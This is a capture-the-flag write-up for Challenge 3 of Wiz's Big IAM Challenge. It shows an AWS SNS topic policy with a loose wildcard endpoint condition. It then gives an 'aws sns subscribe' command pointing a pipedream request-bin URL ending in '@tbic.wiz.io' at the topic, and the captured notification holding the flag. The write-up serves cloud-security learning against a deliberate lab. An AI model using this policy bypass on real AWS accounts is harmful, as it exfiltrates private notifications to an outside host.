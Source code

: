 # Challenge 3

**Challenge 3:** https://bigiamchallenge.com/challenge/3

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/f6eeae81-e16d-4eef-9b81-efe28552ffa7)

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/54ec8c68-a9ca-4c0c-ade5-9f48fc427390)

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/ccaee9d9-ba02-4c4b-98c7-180e87db9185)

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/b3123301-b3d8-4ef2-927a-513adef70f7d)

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/4e9f8d5b-807c-46af-99eb-0eefaea976fb)

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/bd6c9656-9d6b-4ebe-a952-4037404b1971)

```
{
    "Version": "2008-10-17",
    "Id": "Statement1",
    "Statement": [
        {
            "Sid": "Statement1",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": "SNS:Subscribe",
            "Resource": "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
            "Condition": {
                "StringLike": {
                    "sns:Endpoint": "*@tbic.wiz.io"
                }
            }
        }
    ]
}
```

```
aws sns subscribe --topic-arn "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications" --protocol https --notification-endpoint https://eo3cger2lfp4pnh.m.pipedream.net/@tbic.wiz.io
{
    "SubscriptionArn": "pending confirmation"
}
```

Use https://pipedream.com/requestbin

```
{
  "event": {
    "method": "POST",
    "path": "/@tbic.wiz.io",
    "query": {},
    "client_ip": "72.21.217.142",
    "url": "https://eo3cger2lfp4pnh.m.pipedream.net/@tbic.wiz.io",
    "headers": {
      "host": "eo3cger2lfp4pnh.m.pipedream.net",
      "x-amzn-trace-id": "Root=1-665ce0a0-17e9424a0360c75704188102;Parent=3772c3f65797a758;Sampled=0;Lineage=36680206:0",
      "content-length": "963",
      "x-amz-sns-message-type": "Notification",
      "x-amz-sns-message-id": "362d4642-8a4f-5772-8d04-189468afc901",
      "x-amz-sns-topic-arn": "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
      "x-amz-sns-subscription-arn": "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications:e79e6f9e-57d1-428b-8b46-c165c42cbb6f",
      "content-type": "text/plain; charset=UTF-8",
      "user-agent": "Amazon Simple Notification Service Agent",
      "accept-encoding": "gzip,deflate"
    },
    "body": {
      "Type": "Notification",
      "MessageId": "362d4642-8a4f-5772-8d04-189468afc901",
      "TopicArn": "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
      "Message": "{wiz:always-suspect-asterisks}",
      "Timestamp": "2024-06-02T21:14:08.547Z",
      "SignatureVersion": "1",
      "Signature": "ULouJsa9ad6igZIwBaE5Xh/iDVFVOuZ6BUmEaqnlu9NsQpu5/JuDJ1OWuEd8vrFukz83NHFQmQX0csPORa51dCj9aGLwNHalosgDG3aFfkkTsaWD53kCEKeWiMxp6TxtmKQJa2WqWtTCh74cd3X98weo05qNbH1cUh23w9mbnhmlm4kS0K1rUFOWCnFMh05l78yFOyLgihnQ5Toyp5Y/D0SXEn4/8XbXKght9WF3fcLuoV06CKOaOcqhEOUFHB99IsNlCLGyGO9deDcGGXzRqgUph1OfXvTk+HdtGPqFFt4z7Nbwn2vm7F/nFiEQ+EYKA+70Jj+dq/mLk4VvcZhHJg==",
      "SigningCertURL": "https://sns.us-east-1.amazonaws.com/SimpleNotificationService-60eadc530605d63b8e62a523676ef735.pem",
      "UnsubscribeURL": "https://sns.us-east-1.amazonaws.com/?Action=Unsubscribe&SubscriptionArn=arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications:e79e6f9e-57d1-428b-8b46-c165c42cbb6f"
    }
  },
  "context": {
    "id": "2hLABTcXapAu8qfEUjs5sVkUFmg",
    "ts": "2024-06-02T21:14:08.649Z",
    "pipeline_id": null,
    "workflow_id": "p_BjCaLL8",
    "deployment_id": "d_dlsdrnRe",
    "source_type": "COMPONENT",
    "verified": false,
    "hops": null,
    "test": false,
    "replay": false,
    "owner_id": "o_9WIm0bJ",
    "platform_version": "3.49.1",
    "workflow_name": "RequestBin",
    "resume": null,
    "emitter_id": "hi_G7HQXbD",
    "trace_id": "2hLABWBu6tqz7rXdKS9vlkJkHjW"
  }
}
```

